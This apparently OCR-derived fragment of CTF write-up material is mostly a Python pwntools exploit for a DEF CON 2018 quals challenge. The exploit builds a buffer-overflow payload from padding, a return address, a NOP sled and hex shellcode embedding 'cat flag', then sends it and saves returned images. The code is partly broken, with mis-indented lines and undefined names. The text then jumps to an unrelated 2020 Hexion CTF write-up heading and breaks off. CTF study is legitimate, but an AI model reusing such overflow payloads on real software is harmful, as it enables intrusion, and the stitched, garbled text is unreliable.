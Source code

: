 ```python  
'\x2c\x4f\xb5\x82\x06\x82\x63\x61\x74\x20\x2c\xc2\xb5\x82\x06\x82\x66\x6c\x61\x67\x2c\xc2\xb5\x82\x06\x82\x3b\x20\x20\x20\x2c\xc2\xb5\x82\x06\x82\x63\x61\x74\x20\x2c\xc2\xb5\x82\x06\x82\x66\x6c\x61\x67\x2c\xc2\xb5\x82\x06\x82\x3b\x20\x20\x20\x2c\xc2\xb5\x82\x06\x82\x63\x61\x74\x20\x2c\xc2\xb5\x82\x06\x82\x66\x6c\x61\x67\x2c\xc2\xb5\x82\x06\x82\x3b\x20\x20\x20\x2c\xc2\xb5\x82\x06\x82\x63\x61\x74\x20\x2c\xc2\xb5\x82\x06\x82\x66\x6c\x61\x67\x2c\xc2\xb5\x82\x06\x82\x3b\x20\x20\x20\x2c\xc2\xb5\x82\x06\x82\x63\x61\x74\x20\x2c\xc2\xb5\x82\x06\x82\x66\x6c\x61\x67\x2c\xc2\xb5\x82\x06\x82\x3b\x20\x20\x20\x2c\xc2\xb5\x82\x06\x82\x63\x61\x74\x20\x2c\xc2\xb5\x82\x06\x82\x66\x6c\x61\x67\x2c\xc2\xb5\x82\x06\x82\x3b\x20\x20\x20\x2c\xc2\xb5\x82\x2c\xc2\x22\x0f\x59\x8f\x2e\x81\x2c\x4f\x45\xf9\x05\x03\x07\xf8\x4e\x92'

payload = 'http://'  
payload += 'a' * (259 - len(payload))  
payload += '\x03\xff\xf7\xf8' * 8  
payload += DOUBLE_NOP * 100  
payload += shellcode

while True:  
   conn.recvuntil("Welcome to the pre-alpha web aka ")  
   token = conn.recvuntil("\n")[:-1]  
log.info("Token : "+token)  
   conn.recvuntil("What URL would you like this old dog to fetch?\n")  
   print 'sending:'  
   print payload  
   print payload.encode('hex')  
   conn.sendline(payload)  
   i = 0  
   while True:  
       cose = conn.recvuntil("DEBUG ")[:-6]  
       if(len(cose)>0):  
log.info(cose)  
       b64 = base64.b64decode(conn.recvline())  
       f = open('./'+str(filename) + "/image"+str(i).rjust(4,"0")+".png","w")  
       f.write(b64)  
       f.close()  
log.info("Saved image"+str(i)+".png")  
       i += 1

```  

Original writeup
(https://mhackeroni.it/archive/2018/05/20/defconctfquals-2018-all-
writeups.html).# WWW

This task was part of the 'PWN' category at the 2020 Hexion CTF (during 11-13
April 2020).  
It was solved by [or523](https://github.com/or523), in [The
Maccabees](https://ctftime.org/team/60231) team.

My full solution is available [here](solve.py).

## The challenge
